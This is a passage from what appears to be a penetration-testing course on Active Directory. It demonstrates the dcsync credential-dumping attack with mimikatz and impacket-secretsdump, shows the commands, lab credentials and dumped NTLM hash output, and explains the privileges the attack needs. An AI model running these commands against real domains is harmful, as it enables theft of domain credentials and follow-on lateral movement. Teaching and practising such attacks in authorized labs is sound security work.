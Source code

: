 ```bash
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```

We'll discuss lateral movement vectors such as leveraging NTLM hashes obtained by dcsync in the Module Lateral Movement in Active Directory.

For now, let's perform the dcsync attack from Linux as well. We'll use impacket-secretsdump to acheive this. To launch it, we'll enter the target username dave as an argument for -just-dc-user and provide the credentials of a user with the required rights, as well as the IP of the domain controller in the format domain/user:password@ip.

```bash
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103aad3b435b51404eeaad3b435b51404ee::********08d7a47a6f9f66b97b1bae4178747494******:::
...
```

The dcsync attack is a powerful technique to obtain any domain user credentials. As a bonus, we can use it from both Windows and Linux. By impersonating a domain controller, we can use replication to obtain user credentials from a domain controller. However, to perform this attack, we need a user that is a member of Domain Admins, Enterprise Admins, or Administrators, because there are certain rights required to start the replication. Alternatively, we can leverage a user with these rights assigned, though we're far less likely to encounter one of these in a real penetration test.
